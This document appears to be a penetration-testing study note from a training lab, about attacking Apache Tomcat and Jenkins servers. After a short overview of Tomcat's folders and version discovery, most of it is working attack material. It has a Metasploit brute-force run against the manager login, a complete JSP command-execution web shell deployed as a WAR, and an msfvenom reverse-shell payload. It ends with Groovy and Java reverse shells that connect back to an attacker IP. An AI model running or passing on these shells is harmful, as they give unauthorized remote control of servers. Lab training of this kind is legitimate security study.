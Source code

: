 # Tomcat Folder Structure

```
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
```

The `bin` folder stores scripts and binaries needed to start and run a Tomcat server. 

The `conf` folder stores various configuration files used by Tomcat. 

The `tomcat-users.xml` file stores user credentials and their assigned roles. 

The `lib` folder holds the various JAR files needed for the correct functioning of Tomcat. 

The `logs` and `temp` folders store temporary log files. 

The `webapps` folder is the default webroot of Tomcat and hosts all the applications. 

The `work` folder acts as a cache and is used to store data during runtime.

Each folder inside `webapps` is expected to have the following structure.

```bash
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class
```

# **Tomcat - Discovery & Enumeration**

## Requesting an invalid page

![image.png](../../Images/SD_image0.png)

## Detecting Tomcat version using /docs

```bash
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 

<html lang="en"><head><META http-equiv="Content-Type" content="text/html; charset=UTF-8"><link href="./images/docs-stylesheet.css" rel="stylesheet" type="text/css"><title>Apache Tomcat 9 (9.0.30) - Documentation Index</title><meta name="author" 
```

# **Attacking Tomcat**

if we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server.

## **Tomcat Manager - Login Brute Force**

```
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

## **Tomcat Manager - WAR File Upload**

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access

## Creating WAR File

### JSP Web Shell

```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre><%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>
```

Save it as <FILENAME>.jsp and then execute:

```bash
zip -r backup.war cmd.jsp 
```

Click on `Browse` to select the .war file and then click on `Deploy`.

![image.png](../../Images/SD_image1.png)

This file is uploaded to the manager GUI, after which the `/backup` application will be added to the table

![image.png](../../Images/SD_image2.png)

### Executing Commands

```bash
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```

### Cleaning Up

To clean up after ourselves, we can go back to the main Tomcat Manager page and click the `Undeploy` button next to the `backups` application after, of course, noting down the file and upload location for our report, which in our example is `/opt/tomcat/apache-tomcat-10.0.10/webapps`. If we do an `ls` on that directory from our web shell, we'll see the uploaded `backup.war` file and the `backup` directory containing the `cmd.jsp` script and `META-INF` created after the application deploys. Clicking on `Undeploy` will typically remove the uploaded WAR archive and the directory associated with the application.

### Generate a malicious WAR File Using MSFVenom - Optional

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

[GitHub - SecurityRiskAdvisors/cmd.jsp: A super small jsp webshell with file upload capabilities.](https://github.com/SecurityRiskAdvisors/cmd.jsp)

# **Jenkins - Attacking Jenkins**

## **Script Console**

```bash
http://jenkins.inlanefreight.local:8000/script
```
## Groovy Reverse Shell

### Linux

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Windows

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Java reverse shell to gain command execution on a Windows host, swapping out `localhost` and the port for our IP address and listener port.
